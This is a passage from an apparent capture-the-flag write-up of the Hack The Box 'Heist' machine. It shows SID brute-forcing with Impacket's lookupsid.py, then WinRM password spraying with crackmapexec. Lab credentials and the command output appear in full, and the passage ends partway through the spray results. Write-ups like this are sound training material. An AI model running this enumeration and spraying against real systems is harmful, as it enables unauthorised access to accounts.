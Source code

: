 Nothing useful again.

We can use a tool from `Impackets` called `lookupsid.py`
> lookupsid.py: A Windows SID brute forcer example through [MS-LSAT] MSRPC Interface, aiming at finding remote users/groups.

```
root@w0lf:/opt/impacket-impacket_0_9_20/examples# python lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
And we got some new users, I added them to my `user.txt`, Now run `crackmapexec` again.

## Getting User Shell:

This time I get `Access Denied` while trying `Chase:Q4)sJu\Y8qz*A3?d`, So Let's try login with them.
```
root@w0lf:~/CTF/HTB/Boxes/Heist# crackmapexec winrm 10.10.10.149 -u user.txt -p password.txt 
WINRM       10.10.10.149    5985   NONE             [*] http://10.10.10.149:5985/wsman
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\hazard:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\rout3r:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\admin:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\support:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\support:stealth1agent "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\support:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:Q4)sJu\Y8qz*A3?d "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:stealth1agent "the specified credentials were rejected by the server"
```
